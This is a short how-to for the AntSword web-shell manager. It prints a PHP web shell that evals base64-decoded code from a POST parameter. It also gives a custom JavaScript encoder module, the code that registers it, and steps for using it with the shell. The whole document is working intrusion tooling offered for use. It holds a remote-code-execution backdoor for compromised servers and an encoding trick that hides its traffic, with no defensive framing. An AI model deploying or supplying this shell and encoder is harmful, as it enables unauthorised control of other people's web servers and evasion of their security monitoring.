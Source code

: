 shell code
```php
<?php 
$a = $_POST['n985de9'];
if(isset($a)) {
    eval(base64_decode($a));
}
?>
```

add : source/core/php/encoder/mybase64.js

```js
module.exports = (pwd, data) => {
  data[pwd] = new Buffer(data['_']).toString('base64');
  delete data['_'];
  return data;
}
```

edit : sources/core/php/index.js < add some code: regedit mybase64.js

```js
  get encoders() {
    return ['chr', 'base64', 'mybase64'];
  }
```
restart antsword, and add shell, select mybase64 encode  for this shell code.

